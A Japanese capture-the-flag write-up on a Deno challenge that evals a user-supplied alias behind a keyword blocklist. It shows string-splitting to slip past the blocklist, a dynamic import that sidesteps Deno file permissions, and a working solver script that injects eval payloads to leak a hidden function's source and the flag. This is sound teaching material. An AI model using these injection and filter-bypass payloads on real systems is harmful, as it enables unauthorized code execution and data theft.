 # writeup

### 方針

この問題は偽物のフラグに対して別名を設定できるだけのサービスになっています。本物のフラグは別ファイルに記載されています。ただし、別名を設定する際にはeval関数を使用することができます。該当コードを抜粋すると以下の箇所です。

```ts
const m: { [key: string]: string } = {
    "wonderful flag": "fake{wonderful_fake_flag}",
    "special flag": "fake{special_fake_flag}",
};
const key = await eval(waf(alias));
m[key] = flag.getFakeFlag();
return JSON.stringify(Object.entries(m), null, 2);
```

evalに与える文字列はwafを経由しています。wafでは以下のようにNGワードを設定しています。

```ts
const ngWords = [
    "eval",
    "Object",
    "proto",
    "require",
    "Deno",
    "flag",
    "ctf4b",
    "http",
];
```

もう一つ留意事項として、Denoはpermissionを設定しない限りはファイルの読み込みができません。実際、実行コマンドは`DENO_NO_PROMPT=1 deno run --allow-sys --allow-net --allow-env main.ts`となっています。そのため、本来はflag.tsの内容を取得することはできません。

しかし、import関数だけはpermissionをバイパスすることができます。ただし、バンドルされたファイルに限ります。この問題のimportはこのようになっています。

```ts
import * as flag from "./flag.ts";
```

つまり、flag.ts内の全exportが設定されているファイルはimport可能であることがわかります。そこで、うまいことflag.ts内の関数の情報を取得することができれば、本物のフラグを取得することができます。

### **FUNC_NAME_IS_REDACTED_PLEASE_RENAME_TO_RUN**関数の内容を取得

`m[key] = flag.getFakeFlag();`に注目すると、jsのmapはkeyにstring以外を入れるときに、toString()が呼ばれてからmapに代入されます。関数をtoString()すると、関数の情報として、関数内のコメントまで取得することができます。ただし、これが動作するのはDenoの<=1.42までになっています。

ここで、仮に関数名がわかったとします。その場合、import関数で関数を取得し、mapのkeyに代入させる際にtoString関数を実行させます。import関数はasync関数であるため、awaitを使いますが、evalはasync関数を実行できないため、Immediately-Invoked Function Expressionを使って実行します。

```ts
const secretFuncName = "????"
const payload = `(async() => {
  return (await import("./fl"+"ag.ts")).${secretFuncName}
})()`
return await fetch(`http://${HOST}:${PORT}`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({ alias: payload }),
  })
    .then((response) => {
      return response.json();
    })
    .then((data) => {
      return data;
    });
```

よって、次は関数名を取得する方法を考えます。

### 関数名の取得

関数名は公開されていないため、どうにかして取得する必要があります。

```ts
export function **FUNC_NAME_IS_REDACTED_PLEASE_RENAME_TO_RUN**() {
  // **REDACTED**
  return "**REDACTED**";
}

export function getFakeFlag() {
  return "fake{sorry. this isn't a flag. but, we wrote a flag in this file. try harder!}";
}
```

ここで、import関数の返り値に関数名が含まれていることに気づきます。関数名は列挙不可能なプロパティなプロパティとして設定されているため、Reflect.ownKeysを使って取得することができます。

```ts
const payload = `(async() => {
  const mod = await import("./fl"+"ag.ts");
  return Reflect.ownKeys(mod).map(k => k.toString())
})()`
```

よって以下のコードでフラグを取得することができます。

```ts
const PORT = Deno.env.get("PORT") || "80";
const HOST = Deno.env.get("HOST") || "localhost";

async function request(payload: string) {
  return await fetch(`http://${HOST}:${PORT}`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({ alias: payload }),
  })
    .then((response) => {
      return response.json();
    })
    .then((data) => {
      return data;
    });
}

const res1 = await request(`(async() => {
  const mod = await import("./fl"+"ag.ts");
  return Reflect.ownKeys(mod).map(k => k.toString())
})()`);
const secretFuncName = res1?.[2]?.[0].split(",")?.[1];
console.log({ secretFuncName });

if (!secretFuncName) {
  console.log("Failed to get secret function name");
  Deno.exit(1);
}

const res2 = await request(`(async() => {
  return (await import("./fl"+"ag.ts")).${secretFuncName}
})()`);
const flag = res2?.[2]?.[0].match(/ctf4b{.*}/)?.[0];
console.log({ flag });
```
